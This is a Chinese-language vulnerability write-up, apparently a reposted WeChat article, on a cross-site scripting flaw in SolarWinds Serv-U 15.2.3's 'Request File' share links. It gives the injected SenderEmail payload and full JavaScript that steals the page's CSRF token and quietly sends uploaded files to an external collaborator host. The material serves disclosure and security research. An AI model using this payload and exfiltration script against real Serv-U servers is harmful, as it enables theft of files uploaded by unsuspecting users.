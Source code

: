 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Sfrpwdhei1AoAMSb7YgQTg)

![](https://mmbiz.qpic.cn/mmbiz_png/OhKLyqyFoP9mJwX65uY3o0wwuMo2eWPeFuDIhxJlAjMcIicKFSYLVZ6fjicY0dNle24gfmiaVpwCcP2PeZuZyaRzw/640?wx_fmt=png)点击上方蓝字关注我们

概述


------

研究人员在 SolarWinds Serv-U FTP 服务器中发现了一个有趣的漏洞。尽管初始向量需要身份验证，但低权限用户能够创建可公开访问的 URL，当受害者访问该 URL 时将触发 XSS 有效载荷。

Serv-U 包含两个功能来发送和接收来自其他用户的文件，在测试 “请求文件” 功能时，研究人员注意到发件人电子邮件输入被放置在可公开访问的共享 URL 中时没有被编码。这意味着攻击者可以向受害者发送一个共享 URL 来触发 XSS 漏洞。

漏洞复现  



-----------

以下步骤是在 Serv-U 15.2.3 版本上测试的，通过身份验证后，用户可以转到 “请求文件” 选项卡以生成文件请求 URL，如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakZyfMueia95RLRx4SVY5gQx85HIGDwOSv0WweiaaAqfwlOLVhHsNGjH4sRTsw4pJmJEBDf7uAo4OZYg/640?wx_fmt=png)

使用虚拟数据并发送请求，会显示可公开访问的共享 URL：

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakZyfMueia95RLRx4SVY5gQx8mBWpwBt1nTFCI6eMpTZ8VX4myL45lVeROaCAIFfRnLJvYaoZQjhafw/640?wx_fmt=png)

检查生成的 URL 会显示文件上传表单。在此处上传的文件将被发送回链接创建者的 Serv-U 文件夹。

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakZyfMueia95RLRx4SVY5gQx83RxzVRibnlibsibe0zAUb1c9OV8O36owIZoe8agVibQbZffvS3NjzznRVQ/640?wx_fmt=png)

  
现在，如果我们修改原始链接生成请求，并在 “SenderEmail” 字段中包含一个 XSS 有效载荷，例如 "'/><script>alert(7)%3b</script>%40localhost.local。

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakZyfMueia95RLRx4SVY5gQx8IZbiaNFqvPzarRE2rn4lFhtCcAteOvZZxf05apZQmknweXSeMeAbWHA/640?wx_fmt=png)

  
然后从响应中获取 “ShareURL”。

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakZyfMueia95RLRx4SVY5gQx8YkSG61icibyVibveD6nlWR1tvsl4YhibMBAUNTFk4Tib7NmrPiaibuDAEzcxw/640?wx_fmt=png)

这样一来，就成功在可公开访问的共享 URL 上获得 XSS 了。  

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakZyfMueia95RLRx4SVY5gQx8YqSLEmrzCAFNz5IoGu1CHVZh3fjbdnibp2gicG8pSUe80tMSglwLBqTQ/640?wx_fmt=png)

漏洞利用  



-----------

由于漏洞利用使用了 Ajax 异步调用，因此我们需要稍作调整才能将文件正确上传到 Serv-U 同时发送出去。脚本可以简单地托管，然后使用 <script> 标签通过 XSS 注入。简而言之，具体步骤如下：

*   从页面抓取当前 CSRF 令牌
    
*   重写 “SubmitForm” 函数，改为发布到外部主机
    
*   调用 Ajax 方法将文件 POST 到原始 Serv-U 主机，以确保满足原始承诺
    

```
var csrftoken = $('script').text().match(/(&CsrfToken='\+")(.*?)\";/)[2];
function SubmitForm(rForm, rFormsTargetFrame, sFileName, nTransferID, bIsVirtual) {
  var bSubmitted = false;
  SubmitOriginal(rForm, rFormsTargetFrame, sFileName, nTransferID, bIsVirtual);
  if (rForm != null && rForm != undefined && rFormsTargetFrame != null && rFormsTargetFrame != undefined && sFileName != undefined && sFileName != null && sFileName != '' && nTransferID > 0) {
    if (bIsVirtual == undefined || bIsVirtual == null)
      bIsVirtual = 0;
    var sAction = 'http://SOMEURL.burpcollaborator.net/Web Client/Share/MultipleFileUploadResult.htm?Command=UploadFileShare&TransferID=' + nTransferID + '&File=' + encodeURIComponent(sFileName) + '&ShareToken=' + g_sShareToken + '&IsVirtual=' + bIsVirtual + '&CsrfToken=' + csrftoken;
    rForm.setAttribute('action', sAction);
    rFormsTargetFrame.onload = null;
    rFormsTargetFrame.src = '/Web Client/Share/MultipleFileUploadResetFrame.htm';
    rForm.submit();
    bSubmitted = true;
  } else
    ASSERT('Cannot submit form because function parameters are invalid.');
  return bSubmitted;
}

function SubmitOriginal(rForm, rFormsTargetFrame, sFileName, nTransferID, bIsVirtual) {
  jQuery.ajax({
      url: '/Web Client/Share/MultipleFileUploadResult.htm?Command=UploadFileShare&TransferID=' + nTransferID + '&File=' + encodeURIComponent(sFileName) + '&ShareToken=' + g_sShareToken + '&IsVirtual=' + bIsVirtual + '&CsrfToken=' + csrftoken,
      data: new FormData(rForm),
      cache: false,
      contentType: false,
      processData: false,
      method: 'POST'
  });
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/RQoDdorCu0V5znWFiaMBVWiaibdvAvmGeUvfC5LJ60x1Kq5wiaQ5UtMKEDcwQJ3ibicBdGBKxGs1V2AuZcg3ISoDto1g/640?wx_fmt=png)

  

END

  

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakarCFnYafgYGpNRiaX2oibtiawYX92ytrKp9MpmQeOqARcreRBybBX1fDbv2guZxExicn7f0wn2dkVwqw/640?wx_fmt=png)

好文！必须在看